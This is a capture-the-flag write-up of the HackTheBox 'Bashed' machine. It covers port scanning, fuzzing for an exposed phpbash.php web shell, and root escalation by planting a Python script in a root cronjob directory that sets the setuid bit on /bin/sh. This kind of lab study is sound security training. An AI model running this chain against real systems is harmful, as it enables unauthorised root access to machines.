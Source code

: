 ```yaml
---
tags:
  -  htb
revisit: true
---
```

# HackTheBox: [Bashed](https://app.hackthebox.com/machines/Bashed)

> [!tip]- Spoiler Summary
> This Linux machine is running a PHP script that allows direct code execution, but you have to find where it is. Privilege execution is possible due to a cronjob that will run arbitrary Python scripts as the root user; it's possible to discover this using [pspy](https://github.com/DominicBreuker/pspy).

## Services

### TCP

First, a TCP [port scan](port-scanning-20240610.md) with [`nmap`](nmap-20240610.md).

```console
# Nmap 7.94SVN scan initiated Fri Jun 28 12:01:48 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oA nmap_tcp t
Warning: 10.10.10.68 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.68)
Host is up (0.097s latency).
Not shown: 65386 closed tcp ports (reset), 148 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only a web server is running.

#### 80/tcp-http

Service scan with [`whatweb`](whatweb-20240610.md):

```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Visiting `http://t`:

![](_/htb-bashed-20240628-1.png)

Running `feroxbuster -k -u http://t -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1` uncovered some interesting directories, including `/uploads` (with an empty index) and `/dev`, the latter with some interesting files:

![](_/htb-bashed-20240628-2.png)

## RCE

Footholds don't get much easier than this one. There's a script called `phpbash.php` in a directory that's quickly discoverable via fuzzing. And that's the whole foothold:

![](_/htb-bashed-20240628-3.png)

Conveniently, the flag belongs to another user but it's readable:

```console
$ ls -l /home/arrexel/user.txt
-r--r--r-- 1 arrexel arrexel 33 Jun 28 11:00 /home/arrexel/user.txt
```

## PE

Here's how I was able to escalate privileges for full control of the system.

First, I check `sudo` and notice I'm able to become the `scriptmanager` user without a password:

```console
www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home$ sudo -u scriptmanager bash
scriptmanager@bashed:/home$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Using `pspy64` I can see some interesting commands being executed as root:

```console
scriptmanager@bashed:/dev/shm$ wget 10.10.14.10/pspy64
--2024-06-28 11:30:07--  http://10.10.14.10/pspy64
Connecting to 10.10.14.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 964408 (942K) [application/octet-stream]
Saving to: 'pspy64'
pspy64              100%[===================>] 941.80K   540KB/s    in 1.7s
2024-06-28 11:30:09 (540 KB/s) - 'pspy64' saved [964408/964408]

scriptmanager@bashed:/dev/shm$ chmod +x pspy64 && ./pspy64
...
2024/06/28 11:22:01 CMD: UID=0     PID=1227   | python test.py
2024/06/28 11:22:01 CMD: UID=0     PID=1226   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
2024/06/28 11:22:01 CMD: UID=0     PID=1225   | /usr/sbin/CRON -f
```

I confirm that the `/scripts` directory is writable as the current user, and I put a malicious script there to make `/bin/sh` run as `setuid=0`:

```console
scriptmanager@bashed:/dev/shm$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -ld .
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 28 11:25 .
scriptmanager@bashed:/scripts$ echo 'import os;os.system("chmod u+s /bin/sh")' > hax.py
```

Once the cronjob runs, I'm able to run `/bin/sh` with the `-p` option so it doesn't drop the privileges:

```console
scriptmanager@bashed:/scripts$ /bin/sh -p
# id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) groups=1001(scriptmanager)
# cat /root/root.txt
1c4223...
```
